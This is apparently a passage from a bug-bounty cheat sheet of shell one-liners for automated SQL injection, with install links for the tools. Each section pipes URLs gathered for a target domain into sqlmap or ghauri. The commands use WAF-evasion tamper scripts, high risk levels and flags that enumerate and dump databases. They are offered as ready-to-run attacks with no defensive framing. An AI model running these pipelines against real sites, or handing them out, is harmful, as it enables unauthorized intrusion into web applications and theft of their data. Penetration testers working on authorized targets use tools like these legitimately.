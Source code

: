### SQLI
```
urlfinder -d "vulnweb.com" -all| iconv -f ISO-8859-1 -t UTF-8 | match -r "*" -m ~/payloads/sqli.txt | anew | httpx -duc | tee sqli.txt; sqlmap -m sqli.txt --batch --current-db --random-agent --tech=EBT --tamper=space2comment,xforwardedfor,symboliclogical,between,charunicodeencode
```
### SQLi All
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;ghauri -m sqli.txt --random-agent --confirm --force-ssl --level=3 --dbs --dump --batch
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/r0oth3x49/ghauri" target="_blank">ghauri</a></p>

### Blind SQLi
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;sqlmap -m sqli.txt --technique=BT --level=5 --risk=3 --tamper=space2comment,sleep2getlock,space2randomblank,between,randomcase,randomcomments,bluecoat,ifnull2ifisnull --batch --random-agent --no-cast --current-db --hostname
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/sqlmapproject/sqlmap" target="_blank">sqlmap</a></p>

### Time Based SQLi
```
urlfinder -d "vulnweb.com" -all | iconv -f ISO-8859-1 -t UTF-8 | grep -aE '\?.*=.*(&.*)?' | grep -aEi '\.(php|asp|aspx|jsp|jspx|cfm|xml)' | grep -aiEv "\.(css|ico|woff|woff2|svg|ttf|eot|png|jpg|jpeg|js|json|pdf|gif|webp)($|\s|\?|&|#|/|\.)" | awk -F'[?&=]' '!seen[$1$2]++' | anew>sqli.txt;ghauri -m sqli.txt --level=3 --dbs --batch --confirm --technique=T
```
